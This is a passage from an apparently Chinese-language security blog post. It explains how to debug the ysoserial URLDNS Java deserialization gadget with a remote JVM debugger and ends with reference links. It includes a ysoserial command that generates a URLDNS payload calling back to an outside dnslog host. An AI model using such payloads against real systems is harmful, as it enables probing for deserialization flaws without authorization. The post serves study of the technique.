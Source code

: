2. 点击debug进入监听状态
3. terminal输入ysoserial启动语句(不同版本可能不一样，可以直接复制command line argument for remote JVM 去掉<>两个参数，根据实际需求修改)

```java
java -agentlib:jdwp=transport=dt_socket,server=n,address=10.45.9.48:5005,suspend=y -jar ysoserial-0.0.6-SNAPSHOT-all.jar URLDNS "http://maazpy.dnslog.cn"
```

![6.2](https://raw.githubusercontent.com/h1iba1/h1iba1.github.io/refs/heads/master/_posts/JAVA安全/反序列化URLDNS/6.2.png)

生成payload时执行到SilentURLStreamHandler的getHostAddress()方法返回null，就不会产生dns请求。

## 0x07 参考

p神知识星球-反序列化系列（1-3）

[JAVA反序列化-ysoserial-URLDNS](https://raw.githubusercontent.com/h1iba1/h1iba1.github.io/refs/heads/master/_posts/JAVA安全/反序列化URLDNS/https://www.anquanke.com/post/id/201762)

[Java反序列化-URLDNS](https://raw.githubusercontent.com/h1iba1/h1iba1.github.io/refs/heads/master/_posts/JAVA安全/反序列化URLDNS/http://wjlshare.com/archives/1493)

